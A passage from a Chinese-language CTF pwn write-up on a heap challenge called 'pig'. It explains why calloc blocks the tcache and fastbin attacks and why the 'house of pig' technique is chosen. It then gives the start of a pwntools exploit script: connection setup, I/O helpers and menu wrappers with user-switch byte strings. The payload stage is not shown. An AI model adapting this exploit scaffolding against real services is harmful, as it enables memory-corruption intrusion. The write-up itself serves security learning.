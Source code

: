 

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%EF%BC%9A"></a>利用：

由于每个角色的 Add 功能都是用 `calloc` 来申请chunk 的，而 calloc 会跳过 tcache，所以无法使用 tcache attack；并且申请的chunk 至少要大于 0x90，所以也不能用 fastbin attack。

这里就需要利用我们的 `house of pig`。详见 exp

```
from pwn import *

context.log_level = 'debug'

io = process('./pig')
# io = remote('182.92.203.154', 35264)
elf = ELF('./pig')
libc = elf.libc

rl = lambda    a=False        : io.recvline(a)
ru = lambda a,b=True    : io.recvuntil(a,b)
rn = lambda x            : io.recvn(x)
sn = lambda x            : io.send(x)
sl = lambda x            : io.sendline(x)
sa = lambda a,b            : io.sendafter(a,b)
sla = lambda a,b        : io.sendlineafter(a,b)
irt = lambda            : io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s            : log.info('\033[1;31;40m %s --&gt; 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data        : u32(data.ljust(4, '\x00'))
uu64 = lambda data        : u64(data.ljust(8, '\x00'))


def Menu(cmd):
    sla('Choice: ', str(cmd))

def Add(size, content):
    Menu(1)
    sla('size: ', str(size))
    sla('message: ', content)

def Show(idx):
    Menu(2)
    sla('index: ', str(idx))

def Edit(idx, content):
    Menu(3)
    sla('index: ', str(idx))
    sa('message: ', content)

def Del(idx):
    Menu(4)
    sla('index: ', str(idx))

def Change(user):
    Menu(5)
    if user == 1:
        sla('user:\n', 'A\x01\x95\xc9\x1c')
    elif user == 2:
        sla('user:\n', 'B\x01\x87\xc3\x19')
    elif user == 3:
        sla('user:\n', 'C\x01\xf7\x3c\x32')


```